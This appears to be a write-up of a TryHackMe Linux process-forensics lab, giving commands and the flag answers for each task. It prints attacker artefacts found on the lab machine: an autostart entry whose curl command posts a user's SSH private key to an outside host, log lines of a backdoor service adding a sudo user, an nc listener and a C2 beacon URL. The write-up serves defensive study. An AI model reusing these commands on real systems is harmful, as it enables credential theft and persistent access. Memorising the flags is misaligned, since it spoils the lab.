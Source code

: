 > # Linux Process Analysis

# Summary
- [Summary](#summary)
  - [Task 2 - Investigation Setup](#task-2---investigation-setup)
  - [Task 3 - Processes](#task-3---processes)
  - [Task 4 - Cronjobs](#task-4---cronjobs)
  - [Task 5 - Services](#task-5---services)
  - [Task 6 - Autostart Scripts](#task-6---autostart-scripts)
  - [Task 7 - Application Artefacts](#task-7---application-artefacts)

##  Task 2 - Investigation Setup
1. After updating the PATH and LD_LIBRARY_PATH environment variables, run the command check-env. What is the flag that is returned in the output?<br>
    Follow the instruction, then run `check-env` to get the flag.<br>
    **Answer:** THM{8c860435f00c943c21f6b6e0f1b2f854}

##  Task 3 - Processes
1. Which command lists all open files and the processes that opened them?<br>
    > lsof (List Open Files) is a utility that lists information about files opened by processes on a system. 

    **Answer:** lsof

1. Use pstree to list out the process hierarchies. What is the name of the nc processes parent?<br>
    ```shell
    investigator@tryhackme:~$ ps -eFH | grep 4444
    janice      1142    1136  0   815   764   0 03:43 ?        00:00:00           nc -l 0.0.0.0 4444
    investi+    3025    1835  0  2042   656   1 04:30 pts/1    00:00:00           grep --color=auto 4444
    investigator@tryhackme:~$ pstree -p -s 1142
    systemd(1)───cron(685)───cron(1134)───sh(1135)───abzkd83o4jakxld(1136)───nc(1142)
    ```
    Use `ps -eFH | grep 4444` to find PID of nc, then use `pstree` to get parrent process's name of nc.<br>
    **Answer:** abzkd83o4jakxld

##  Task 4 - Cronjobs
1. Search around the system for suspicious system-level cronjob entries. What is the full URL of the C2 server?<br>
    In `etc/cron.hourly`, the is a crontab run with root privilege.<br>
    ```shell
    $ sudo crontab -l -u root
    @hourly /etc/cron.hourly/beacon
    ```
    Then read the content of `beacon` file.<br>
    **Answer:** http://c2.intelligent-software.thm:8310/beacon

1. List the user-level cronjobs in the system. What is the hidden flag in one of the scripts?<br>
    ```
    $ sudo bash -c 'for user in $(cut -f1 -d: /etc/passwd); do entries=$(crontab -u $user -l 2>/dev/null | grep -v "^#"); if [ -n "$entries" ]; then echo "$user: Crontab entry found!"; echo "$entries"; echo; fi; done'
    root: Crontab entry found!
    @hourly /etc/cron.hourly/beacon

    janice: Crontab entry found!
    * * * * * /home/janice/abzkd83o4jakxld.sh

    bob: Crontab entry found!
    10 05 * * * /home/bob/backup_tmp.sh
    30 04 * * * /var/tmp/findme.sh

    elijah: Crontab entry found!
    0 3 * * * /home/elijah/.flag.sh
    ```
    The flag is in `/home/elijah/.flag.sh`.<br>
    **Answer:** THM{4682786cf2d92f01c4d30a2bbf4621f7}

1. Use pspy64 to monitor executions occurring through the system. What is the decoded flag value that is echoed every 15 seconds?<br>
    ![](images/1.png)<br>
    This is the base64 string, decode it to get the flag.<br>
    **Answer:** THM{851a981445dbfb9485c3771510a53568}

##  Task 5 - Services
1. List all running services on the system. What is the flag you discover in the backdoor service's description?<br>
    ```shell
    $ sudo systemctl list-units --type=service --state=running
    UNIT                                           LOAD   ACTIVE SUB     DESCRIPTION                                                     
    accounts-daemon.service                        loaded active running Accounts Service                                                
    acpid.service                                  loaded active running ACPI event daemon                                               
    atd.service                                    loaded active running Deferred execution scheduler                                    
    avahi-daemon.service                           loaded active running Avahi mDNS/DNS-SD Stack                                         
    b4ckd00rftw.service                            loaded active running Backdoor Service - THM{4922066dc6494e8d4d507eef2205c262}
    ```
    **Answer:** THM{4922066dc6494e8d4d507eef2205c262}

1. View the journalctl logs associated with the backdoor service. What is the flag you discover?<br>
    ```shell
    $ sudo journalctl -f -u b4ckd00rftw.service
    -- Logs begin at Sun 2022-02-27 13:52:14 UTC. --
    Aug 17 05:24:15 tryhackme b4ckd00rftw.sh[640]: THM{053c12e620acea8a77b4bdcba578ca19}
    Aug 17 05:25:15 tryhackme sudo[4979]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/useradd -m -p $1$t68kbHlf$2YjK9f9hPBNP4x4Lw.0w.0 b4ckd00rftw
    Aug 17 05:25:15 tryhackme sudo[4979]: pam_unix(sudo:session): session opened for user root by (uid=0)
    Aug 17 05:25:15 tryhackme b4ckd00rftw.sh[4980]: useradd: user 'b4ckd00rftw' already exists
    Aug 17 05:25:15 tryhackme useradd[4980]: failed adding user 'b4ckd00rftw', data deleted
    Aug 17 05:25:15 tryhackme sudo[4979]: pam_unix(sudo:session): session closed for user root
    Aug 17 05:25:15 tryhackme sudo[4981]:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/sbin/usermod -aG sudo b4ckd00rftw
    Aug 17 05:25:15 tryhackme sudo[4981]: pam_unix(sudo:session): session opened for user root by (uid=0)
    Aug 17 05:25:15 tryhackme sudo[4981]: pam_unix(sudo:session): session closed for user root
    Aug 17 05:25:15 tryhackme b4ckd00rftw.sh[640]: THM{053c12e620acea8a77b4bdcba578ca19}
    ```
    **Answer:** THM{053c12e620acea8a77b4bdcba578ca19}

##  Task 6 - Autostart Scripts
1. What is the full URL that receives Janice's private SSH key on system startup?<br>
    ```
    $ ls -a /home/*/.config/autostart
    /home/eduardo/.config/autostart:
    .  ..  dev.desktop

    /home/franklin/.config/autostart:
    .  ..  netwk.desktop

    /home/janice/.config/autostart:
    .  ..  keygrabber.desktop
    $ cat /home/janice/.config/autostart/keygrabber.desktop 
    [Desktop Entry]
    Type=Application
    Name=Standard Desktop Configuration (DO NOT MODIFY)
    Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://aabab.best-it-services.thm/id_rsa"
    ```
    **Answer:** http://aabab.best-it-services.thm/id_rsa

1. Identify and investigate the remaining .desktop files on the system. What is the command that executes with the Show Network Interfaces autostart script?<br>
    ```shell
    $ cat /home/franklin/.config/autostart/netwk.desktop 
    [Desktop Entry]
    Type=Application
    Name=Show Network Interfaces on Startup
    Exec=ifconfig
    ```
    **Answer:** ifconfig

##  Task 7 - Application Artefacts
1. Analyse Janice's .viminfo log. What flag do you find within the Vim search history?<br>
    ```
    $ sudo cat /home/janice/.viminfo | grep THM
    ~MSle0~/THM{4a8fd984228d89999342d189e6b916de}
    ?/THM{4a8fd984228d89999342d189e6b916de}
    |2,1,1710339063,47,"THM{4a8fd984228d89999342d189e6b916de}"
    ```
    **Answer:** THM{4a8fd984228d89999342d189e6b916de}

1. Use DumpZilla to investigate Eduardo's Firefox bookmarks. What flag do you find in one of the entries?<br>
    ```shell
    $ sudo python3 /home/investigator/dumpzilla.py /home/eduardo/.mozilla/firefox/niijyovp.default-release --Bookmarks | grep THM
    URL: https://tryhackme.com/?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    Title: THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    URL: https://tryhackme.com/?flag=https://tryhackme.com?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
    ```
    **Answer:** THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}

